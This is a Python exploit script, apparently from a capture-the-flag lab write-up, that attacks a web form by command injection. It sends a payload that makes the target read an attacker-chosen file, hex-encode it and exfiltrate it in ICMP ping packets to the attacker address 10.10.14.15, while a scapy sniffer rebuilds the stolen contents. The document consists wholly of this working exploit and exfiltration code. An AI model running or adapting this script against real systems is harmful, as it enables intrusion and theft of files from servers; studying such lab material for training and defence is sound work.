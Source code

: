 

      1 #!/usr/bin/env python3
      2 
      3 import requests
      4 import sys
      5 from scapy.all import *
      6 from threading import Thread
      7 
      8 buf = ''
      9 marker = "0xdf"
     10 
     11 def parse_ping(pkt):
     12     global buf
     13     setmarker = set(marker)  # to check if string is completely marker in some order
     14     buf += pkt[ICMP].load[16:32].decode('utf-8')
     15     if set(buf[-4:]) == setmarker:
     16         if set(buf) != setmarker:
     17             buf = buf[:buf.index(marker)]
     18             print(f"{buf}")
     19         buf = ''
     20 
     21 def sniffer():
     22     sniff(iface="tun0", filter="icmp[icmptype] == 8", prn=parse_ping)
     23 
     24 sniff_thread = Thread(target = sniffer)
     25 sniff_thread.daemon = True  # allow ctrl-c to exit
     26 sniff_thread.start()
     27 
     28 if len(sys.argv) < 2:
     29     ip = input("ip: ")
     30 else:
     31     ip = sys.argv[1]
     32 
     33 data = """(echo "{marker}" | cat {cmd} -) | xxd -p | tr -d '\\n' | fold -w 32 | while read data; do ping -c 1 -p $data 10.10.14.15; done;"""
     34 
     35 while True:
     36     try:
     37         cmd = input("filename: ")
     38         print()
     39         resp = requests.post(f'http://{ip}/',
     40                    data=f"command={data.format(cmd=cmd,marker=marker*4)}",
     41                    headers={"Content-Type": "application/x-www-form-urlencoded"})
     42         if "Command is not allowed." in resp.text:
     43             print("Name filtered. Try again")
     44     except requests.exceptions.ConnectionError:
     45         print(f"Unable to connect to {ip}.")
     46         sys.exit()
     47     except KeyboardInterrupt:
     48         print()
     49         sys.exit()
